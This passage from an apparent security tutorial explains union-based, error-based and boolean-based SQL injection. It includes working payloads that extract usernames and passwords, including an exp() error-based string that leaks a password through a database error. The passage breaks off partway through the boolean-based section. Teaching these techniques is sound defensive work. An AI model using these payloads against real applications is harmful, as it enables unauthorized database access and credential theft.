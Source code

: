This input would create a valid SQL statement that grabs information for “soap” but UNIONS all the usernames and passwords of the users!

```sql
SELECT product_name, product_cost, product_description FROM
product_table WHERE product_name = 'soap' UNION SELECT username,password,NULL FROM user_table;-- -';
```

Notice the strategic placement of the `'` character that allows the attacker to insert SQL syntax and extend the SQL query!

### Error-Based Injections

In an error-based injection, an attacker writes a SQL query to force the application to return an error message with sensitive data.

Let’s take a look at the example below from an actual vulnerability. In this example, the attacker’s input causes an error that spits out the password.

```sql
asdf' UNION select 1, exp(~(select*from(SELECT Password FROM profiles WHERE ID=1)x)); -- -
```

SQL query:

```sql
SELECT user_id FROM users WHERE username='asdf' UNION select 1, exp(~(select*from(SELECT Password FROM profiles WHERE ID=1)x)); -- -
```

SQL completes that inside statement getting the password for the profile ID 1, but errors on the value type that should be returned. This is the error that accidentally gives away the password!

```sql
Database access error. Description: DOUBLE value is out of range in 'exp(~((select 'SUP3r_S3cur3_P@a55w0rd!' from dual)))'<?xml version='1.0' encoding='UTF-8'?><ray><result value="Error saving setting." status="failed" /></ray>
```

### Boolean-Based Injections

Boolean-based injections involve SQL statements that can confirm TRUE/FALSE questions about the database. When using this method, the attacker takes note of the difference in the web response (changes in HTML, HTTP response code, or other web session data) when the result of their question is true or false.

Suppose a website has a search box that will return the username and email of a specific user ID. The SQL query below is used:

```sql
SELECT username, email FROM users WHERE id = '[USER INPUT]';
```

In a normal search for `id 1`, the website will give back the username admin and email `admin@site.com` and display everything as normal.

Someone sneaky can use the `AND` keyword to see what happens on the website when the SQL statement is false.
